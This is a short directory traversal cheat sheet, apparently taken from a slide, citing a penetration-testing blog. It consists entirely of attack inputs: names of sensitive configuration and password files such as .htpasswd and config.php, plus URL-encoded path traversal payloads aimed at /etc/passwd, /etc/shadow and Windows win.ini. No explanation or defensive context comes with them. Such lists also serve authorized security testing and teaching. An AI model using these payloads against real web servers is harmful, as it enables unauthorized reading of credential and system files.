

# Directory Traversal Cheat Sheet
https://pentestlab.wordpress.com/2012/06/
.htpasswd
db.php
data.php
database.asp
database.js
database.php
/core/config.php
config.php
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow
/..\..\..\..\..\..\winnt\win.ini
../../windows/win.ini